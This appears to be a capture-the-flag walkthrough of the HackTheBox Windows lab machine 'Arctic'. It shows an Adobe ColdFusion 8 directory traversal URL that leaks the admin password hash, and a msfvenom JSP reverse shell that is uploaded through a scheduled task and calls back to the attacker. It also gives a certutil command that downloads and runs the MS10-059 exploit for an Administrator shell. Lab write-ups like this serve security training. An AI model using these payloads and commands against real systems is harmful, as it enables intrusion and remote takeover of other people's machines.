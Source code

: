 ```yaml
---
title: Arctic - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-22 12:00:00 
categories: [HackTheBox,Windows]
tags: [directory traversal,windows-exploit-suggester,certutil]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Arctic/00-banner.png
  width: 587
  height: 353
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Arctic` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we’ll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Thu Oct 21 13:54:37 2021 as: nmap -sC -sV -v -oN nmap-scan -Pn 10.129.240.247
Nmap scan report for 10.129.240.247
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 21 13:57:31 2021 -- 1 IP address (1 host up) scanned in 174.64 seconds
```
3 ports are open `135,49154:MRPC` and `8500` possibly running FMTP.
## HTTP Enumeration
Enumerating the port 8500 it turn out to be http, it shows a directory listing.

![01-web](/assets/img/HTB/Arctic/01-web.png)

After open some pages I came across with `/CFIDE/administrator`.

![02-web](/assets/img/HTB/Arctic/02-web.png)

Which displays a login page for `Adobe ColdFusion 8`

![03-login](/assets/img/HTB/Arctic/03-login.png)

# Initial Foothold
First thing I did was check if it had any vulnerability and I found this [exploit](https://www.exploit-db.com/exploits/14641) which is a Directory Traversal.
This exploit shows the content of `password.properties` file.

![04-exploit](/assets/img/HTB/Arctic/04-exploit.png)

We can do it manually just using the next URL.
```text
http://10.129.240.247:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
Looking at the source code, it give us the password hashed for the user `admin`

![05-hash](/assets/img/HTB/Arctic/05-hash.png)

But [crackstation](https://crackstation.net/) can crack it.

![06-passwd](/assets/img/HTB/Arctic/06-passwd.png)

User|Password
-|-
admin|happyday

Once we are in, just need upload a reverse shell scheduling a new task in the system.
Before that create a payload using `msfvenom`.
```console
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.75 LPORT=443 -o shell.jsp
```
The category of "Debugging & Logging > Schedule Task" will allow us to upload files, and "Server Settings > Mapping" gonna display the directory path of `/CFIDE` this will be useful at the time of create the task.

![07-task](/assets/img/HTB/Arctic/07-task.png)

The directory path to CFIDE is `C:\ColdFusion8\wwwroot\CFIDE`,  after knowing this we can go to "Debugging & Logging > Schedule Task".

![08-path](/assets/img/HTB/Arctic/08-path.png)

Create a Python HTTP Server in the same directory that is our payload and complete the name,url of our python server, the admin's credentials and the path to save our shell.jsp file like the screenshot below.

![09-upload](/assets/img/HTB/Arctic/09-upload.png)

Submit it and click in run, after that, I went to this URL: `http:\\10.129.240.247:8500\CFIDE`

![10-task](/assets/img/HTB/Arctic/10-task.png)

Here we see our payload.

![11-shell](/assets/img/HTB/Arctic/11-shell.png)

At the time of click `shell.jsp` we will recive the reverse shell on the netcat listener port.

![12-shell](/assets/img/HTB/Arctic/12-shell.png)
# Privilage Escalation
Running `systeminfo` shows some information of the system. I copied the output and saved it in a file `sysinfo.txt` to use it with [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py), this tool needs the python xlrd library.
```console
$ python -m pip install xlrd
$ pip install xlrd=1.2.0
```
Create a database and run it using the file created.
```console
$ python windows-exploit-suggester.py --update
$ python windows-exploit-suggester.py --database 2021-10-21-mssb.xls --systeminfo sysinfo.txt
```

![13-suggester](/assets/img/HTB/Arctic/13-suggester.png)

Searching about `MS10-059` I found a executable in this [repository](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

I downloaded the binary, opened a python http server and on the victim machine ran this commands to transfer the `.exe` file:

```text
certutil.exe -urlcache -f http://10.10.14.75/MS10-059.exe
C:\Windows\Temp\MS10-059.exe 10.10.14.75 443
```

![14-certutil](/assets/img/HTB/Arctic/14-certutil.png)

It give us a shell as Administrator.

![15-root](/assets/img/HTB/Arctic/15-root.png)

That’s it for now guys. Until next time.

